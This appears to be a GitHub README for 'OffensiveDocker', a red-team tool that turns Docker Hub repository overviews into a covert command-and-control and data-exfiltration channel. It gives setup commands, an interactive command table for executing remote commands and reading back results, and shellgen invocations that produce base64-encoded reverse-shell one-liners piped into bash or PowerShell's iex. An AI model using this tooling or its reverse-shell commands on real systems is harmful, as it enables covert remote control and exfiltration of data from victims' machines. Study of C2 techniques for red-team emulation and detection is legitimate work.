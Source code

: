 # OffensiveDocker by @0xbugatti


OffensiveDocker is a tool designed to turn Docker Hub repository to secure exfiltration and C&amp;C by JSON-based requests . This script allows you to save, show , and read command execution results in addition to execution , effectively enabling my APT Emulation Skills, cloud-based C2 (Command &amp; Control) system.


As Redteamer :
Exfiltrate Data Over hub.docker.com 

As Blue Teamer :
From Today Dont Trust hub.docker.com 
![odloogo](imgs/odlogo.png)

# Features
- Execute new commands and append them to the repository.

- Retrieve and display C2 execution history stored in Docker Hub repository overviews.
        
- Encode Data before sent and Decode on display results from previous executions.
    
- reset db to avoid exceeding limits errors
  
- Save execution history into an SQLite database before reset .
    
- Switch between different agent repositories.
    
    
- Automatic repository creation if it doesn't exist.

# Note 
This Is Just POC of the Concept alot of Evasion Techniques could be Implemented but 
I will not disclose the special edition and awaiting that from contributers

# Installation 
```bash
git clone https://github.com/0xBugatti/OffensiveDocker.git
cd OffensiveDocker/
pip install -r requirements.txt
python C2-server.py --user <username> --new --repo <repo> --token <docker_hub_token>

```
# Usage


## Create repos 

```
python C2-Server.py --user <username> --new --repo <repo> --token <docker_hub_token>
```

- `--user` : Docker Hub username
    
- `--repo` : Repository name
    
- `--token` : Docker Hub API token
    
- `--save` : Save all C2 connection data to SQLite and exit
    
- `--read` : Read all C2 connection data and exit
    
- `--new` : Create the repository if it does not exist

## Interactive Mode

Once the script is running, you can use the following commands:

#### Available Commands:

|Command|Description|
|---|---|
|`exec "text"`|Add a new command to be executed|
|`show <ID>`|Retrieve and decode the 'result' field for the given ID|
|`setagent-repo <name>`|Change the current agent repo|
|`read`|Display all C2 connection data in a table|
|`save`|Save all connection data to an SQLite database|
|`help`|Display this help menu|
|`reset`|Reset the repository overview|
|`stop`|Exit the program|

##### Example
```
testit> exec "whoami"
testit> show 1
testit> save
testit> read
testit> stop
```


## Generating a reverse shells

### bash

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode bash`
```

```bash
echo "YmFzZTY0LWVuY29kZWQtc2NyaXB0" | base64 -d | bash
```

### powershell

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode powershell`
```
**Example :**



```powershell
([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YmFzZTY0LWVuY29kZWQtc2NyaXB0"))) | iex
```

## POCs
![image](imgs/repogen.jpg)
![image](imgs/win-revshell.jpg)
![image](imgs/linux-revshell.jpg)
![image](imgs/linux.png)
![image](imgs/AD-Win.png)
c2thedocker.png
## License

This project is licensed under the MIT License.

## Author

Developed by **0xbugatti**

# 🚀 Follow Me  

Stay connected and follow me on my social platforms!  

[![YouTube](https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)](https://www.youtube.com/@0xbugatti)  
[![X (Twitter)](https://img.shields.io/badge/X-000000?style=for-the-badge&logo=twitter&logoColor=white)](https://x.com/0xbugatti)  
[![Medium](https://img.shields.io/badge/Medium-000000?style=for-the-badge&logo=medium&logoColor=white)](https://medium.com/@0xbugatti)  
[![Facebook](https://img.shields.io/badge/Facebook-1877F2?style=for-the-badge&logo=facebook&logoColor=white)](https://www.facebook.com/0xbugatti)  


